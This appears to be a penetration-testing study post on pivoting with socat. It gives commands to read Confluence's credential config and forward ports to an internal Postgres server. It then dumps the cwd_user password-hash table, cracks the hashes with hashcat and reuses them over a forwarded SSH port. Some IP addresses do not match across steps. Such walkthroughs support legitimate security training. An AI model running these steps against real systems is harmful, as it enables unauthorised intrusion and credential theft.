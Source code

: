```yaml
---
layout: post
title: Port Forwarding Socat
titledate: 09/22/23
tags: ["infosec", "info_gathering", "offsec", "tunnel", "socat", "hashcat"]
---
```


#### port forwarding

upon inspecting a machine we have gained access to we discover a confluence config

  $ cat /var/atlassian/application-data/confluence/confluence.cfg.xml

this machine has creds for a machine we do not have access to but our target doe and is running a postgres server

first we need to copy or install socat on our target machine inside our WAN

we will use socat to set up a listening port on the target machine we have access to in our WAN

  target@reachable:/ socat -ddd TCP-LISTEN:2345,fork TCP:10.4.1.1:5432

because we have connected to our target and run ip to identify another machine (10.4.1.1) running postgres (5432) that it can talk to (DMZ) but we cannot, we will execute the command above 

this tells socat that it will listen on the target machine on port 2345 and forward any received connections to port 5432 as a new process

now on our attacking machine we attempt a psql login as postgres to the target

  $ psql -h 192.168.1.1 -p 2345 -U postgres

and it gets forwarded to the DMZ machine running postgres

  postgres=# \l

list available databases

  postgres=# \c confluence

connect to confluence database

  postgres=# \dt

display tables in the database

  postgres=# select * from cwd_user;

display all contents of the cwd_user table

this table contains all of the users and passwords for confluence

we can store the hashes in a txt file to crack with hashcat on our kali machine

  $ hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt

12001 is the hashcat mode for confluence

#### leveraging cracked passwords

if we discover a password from the above confluence database, we can try to see if there are any other services running on that server like ssh

if so, we can do the same setup as before but bind our socat to a different port

  target@reachable:/ socat TCP-LISTEN:2222,fork TCP:10.1.1.215:22

here because the target machine we can reach inside our WAN isn't running anything on port 2222 we bind that listening port and forward incoming connections to our DMZ system that is running postgres and ssh on port 22

  $ ssh database_admin@192.168.50.63 -p2222

on our linux machine we can attempt to utilize the credentials we discovered in the confluence table hack to see if we are able to ssh into the DMZ system running ssh, we provide port 2222 because that is what is listening on the confluence machine

### other port forwarding options, rinetd, netcat and FIFO named pipe file, iptables with root privs
